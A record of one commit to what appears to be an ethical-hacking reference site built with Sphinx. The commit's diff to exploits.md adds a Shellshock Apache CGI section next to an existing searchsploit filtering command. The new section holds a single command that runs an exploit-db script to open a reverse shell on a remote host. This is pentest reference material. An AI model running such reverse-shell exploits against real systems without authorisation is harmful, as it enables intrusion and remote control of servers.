

Before and after one commit to curious-attempt-bunny/ethical-hacking-reference-docs, a Sphinx documentation site: the page built from source/exploits.md, in a window 1280 px wide. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update exploits.md

````diff
--- a/source/exploits.md
+++ b/source/exploits.md
@@ -6,3 +6,8 @@ Example, searching for PHP 5.5 exploits (for a Linux host):
 ```
 searchsploit --color -t php 5 | grep -iE '[^.]5\.([0-9]{2,}|[5-9]|x)' | grep -vE '(windows/)|/(dos|local)/' | grep -vE '^UBBCentral|PHP-Nuke|Ovidentia|DCP-Portal'
 ```
+## Shellshock Apache CGI
+
+```
+sudo ./34900.py payload=reverse rhost=xxx lhost=yyy lport=443 pages=/PATH
+```
````
